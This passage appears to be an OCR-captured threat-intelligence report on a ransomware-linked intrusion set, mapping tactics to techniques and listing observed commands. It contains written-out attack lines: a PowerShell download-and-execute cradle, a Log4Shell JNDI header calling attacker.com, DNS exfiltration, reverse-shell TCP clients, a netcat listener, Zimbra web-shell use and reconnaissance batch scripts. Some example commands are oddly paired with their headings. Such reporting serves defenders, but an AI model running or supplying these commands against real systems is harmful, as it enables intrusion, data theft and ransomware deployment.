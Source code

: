             *   `$targetTcp = New-Object System.Net.Sockets.TcpClient($ipaddress, $port)`.
    *   **Ingress Tool Transfer**: Tools are downloaded using PowerShell and curl.
        *   Example:

            *   `powershell -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://dns.stager.domain/payload')"`.
    *   **Modular C2 Infrastructure**: Flexible C2 is built using Cobalt Strike and Rclone for beaconing, with fallback mechanisms via netcat and SSH.
*   **Exfiltration**
    *   **Data Exfiltration**: Rclone, curl, and bitsadmin are used for data exfiltration.
        *   Example:

            *   `curl -X GET ‘https://vulnerableapp.com/api' -H ‘User-Agent: ${jndi:ldap://attacker.com/a}’`.
    *   **Cloud Storage**: Data is exfiltrated to cloud services like MEGA.io.
        *   Example:

            *   `nslookup payload.txt attacker-dns-server.com`.
*   **Impact**
    *   **Data Encrypted for Impact**: Use of Black Basta ransomware to encrypt the data.
    *   **Volume Shadow Copies**: Volume shadow copies are deleted to hinder recovery.
    *   **Service Disruption**: Services are killed to maximize impact.

### Observed commands

*   PowerShell Get-VM / Stop-VM commands
*   curl ipinfo.io/json targeting IP
*   `powershell iwr hxxp://149[.]28[.]105[.]251:801/download/HK_DNS_x64_n1_x64_inf.dll`
*   `/opt/zimbra/bin/zmprov -l gaa`
*   `/opt/zimbra/bin/zmmailbox -z -m user@domain.com s -t message -l 10 “in:Inbox From:@binance.com”`
*   `curl -i -s -k -X ‘GET’ -H ‘Host: 91.204.248.6’ -b ‘JACTION=Q00=; JCMD=aXAgYQ==; JSESSIONID=dmJwdHh4…’ https://91.204.248.6/zimbraAdmin/public/jsp/ZimbraAdmin.jsp`
*   `Start-Process $PSHOME\powershell.exe -ArgumentList {$client = New-Object System.Net.Sockets.TCPClient(‘17x.6x.1xx.242)}`
*   `python3 shell.py — base_url=”zimbraAdmin/public/jsp” — web_shell_filename=”ZimbraAdmin.jsp” — key vbptxxwjdxsfrgzgeudtfffawmbcbhcx — target https:`
*   `reverse 1X.2X.3X.255 3434 /usr/lib/sftp`
*   `nc -lvp 3439`
*   ```
    @echo off
    set fileName=ci.txt
    echo CHECK AV >> %fileName% 2>&1
    WMIC /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName,productState /Format:List >> %fileName% 2>&1
    echo GET SYSTEMINFO >> %fileName% 2>&1
    systeminfo >> %fileName% 2>&1
    ```
    
*   `$targetTcp = New-Object System.Net.Sockets.TcpClient($ipaddress, $port)`
*   ```
    @echo off
    set fileName=ci.txt
    powershell -c "$D=[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain();…"
    ```
    